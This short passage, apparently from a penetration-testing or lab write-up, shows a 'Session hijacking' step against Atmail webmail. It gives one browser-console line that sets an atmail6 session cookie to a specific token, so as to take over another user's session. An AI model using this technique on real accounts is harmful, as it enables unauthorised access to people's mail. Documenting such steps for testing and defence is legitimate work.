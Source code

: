 ### Session hijacking
```
Inspeccionador -> Console
javascript:void(document.cookie="atmail6=1fp0fjq4aa8sm5if934b62ptv6"); 
```
